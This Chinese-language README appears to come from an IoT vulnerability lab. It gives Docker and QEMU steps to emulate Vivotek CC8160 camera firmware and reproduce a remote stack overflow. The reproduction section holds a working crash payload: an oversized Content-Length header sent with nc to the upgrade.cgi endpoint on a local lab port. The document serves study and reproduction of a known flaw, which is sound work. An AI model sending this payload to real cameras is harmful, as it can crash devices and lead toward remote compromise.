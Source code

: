 # Vivotek IP Cameras CC8160 栈溢出漏洞


## 漏洞环境

### 用户级模拟 - 快速验证

手动构建：

```sh
# 构建 binwalk 并解包固件
$ cd baseImage/binwalk
$ docker build -t binwalk .
$ cd Vivotek/remote_stack_overflow
$ docker run -v $PWD/firmware:/root/firmware binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 构建漏洞环境
$ docker-compose -f docker-compose-user.yml build

# 后台启动环境
$ docker-compose -f docker-compose-user.yml up
```

直接拉取：

```sh
# 拉取 binwalk 并解包固件
$ docker pull firmianay/binwalk
$ docker run -v $PWD/firmware:/root/firmware firmianay/binwalk -Mer /root/firmware/CC8160-VVTK-0100d.flash.zip

# 拉取漏洞环境并启动
$ docker pull firmianay/vivotek:remote_stack_overflow-user
$ docker run --privileged -p 1234:80 -it vivotek:remote_stack_overflow-user
```

### 系统级模拟 - 动态调试

手动构建，解包过程同上。如果想要动态调试，还需要编译对应的 arm gdbserver 并复制到 system-emu/tools 目录。

```sh
# 先构建漏洞环境 qemu-system:arm 环境
$ cd baseImage/qemu-system/armel
$ docker build -t qemu-system:armel .

# 再构建漏洞环境
$ docker-compose -f docker-compose-system.yml build

# 启动环境
$ docker-compose -f docker-compose-system.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it vivotek-system /bin/bash
$ ssh root@192.168.2.2
```

直接拉取：

```sh
$ docker pull firmianay/vivotek:remote_stack_overflow-system
$ docker run --privileged -it vivotek:remote_stack_overflow-system
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 1234
```

![img](./crash.png)


## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
